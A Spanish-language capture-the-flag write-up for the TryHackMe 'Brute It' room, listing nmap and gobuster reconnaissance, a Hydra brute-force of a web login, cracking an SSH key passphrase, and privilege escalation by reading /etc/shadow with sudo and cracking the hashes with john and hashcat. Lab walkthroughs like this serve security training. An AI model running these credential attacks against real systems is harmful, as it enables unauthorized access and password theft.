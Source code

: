 ```yaml
---
title: "bruteit"
description: "bruteit"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/bruteit

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.201.81
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240505181432.png)

## Reconocimiento de servicios

````
nmap -sVC -p22,80 -Pn 10.10.201.81
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240505181501.png)

## Gobuster

````
gobuster dir -u http://10.10.201.81 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240505182046.png)

# Fase de ataque

En el código fuente encontramos el username
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240505183119.png)

## Hydra

````
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.201.81 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240505183607.png)
Nos conectamos y encontramos la clave privada de John

````
chmod 600 id_rsa
````

## John

La clave tiene prassphrase

````
ssh2john id_rsa Z idrsa.john
````

````
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240505184627.png)

Nos conectamos por SSH
\[-\] ==pwned!==

# Privilege Escalation

Podemos ejecutar el siguiente comando con contraseña para saber que comandos con privilegios puede utilizar el usuario

````
sudo -l
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240505190149.png)
Podemos ver archivos con permiso de root con /bin/bash.
Las contraseñas se encuntran en  /etc/shadow hasheadas

````
PASS=/etc/shadow; sudo cat "$PASS"
````

````
PASS=/etc/passwd; sudo cat "$PASS"
````

La crackeamos

1. Las combinamos

````
unshadow passwd.txt shadow.txt > passwords
````

2. Crackeamos
   2 Fomas:

````
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
````

````
hashcat -m 1800 passwords /usr/share/wordlists/rockyou.txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240505193229.png)
\[+\] ==pwned!==
